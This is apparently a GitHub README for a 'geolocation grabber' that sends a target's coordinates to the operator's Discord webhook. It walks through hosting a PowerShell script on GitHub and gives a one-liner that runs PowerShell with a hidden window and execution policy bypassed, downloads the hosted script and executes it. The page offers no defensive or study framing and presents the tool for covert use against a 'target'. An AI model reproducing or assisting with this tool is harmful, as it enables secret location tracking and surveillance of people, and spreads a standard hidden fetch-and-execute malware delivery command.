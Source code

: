# geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<p>![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image1<p/>
<p>put geolocationgraber.ps1.txt in and commit changes <p/>
<p>click geolocationgraber.ps1.txt<p/>
<p>![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image2 <p/>
<p>click the pen<p/>
<p>del .txt<p/>
<p>![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image3<p/>
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
<p>![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image4<p/>
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
<p><p/>
<p>```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```<p/>
<p><p/>
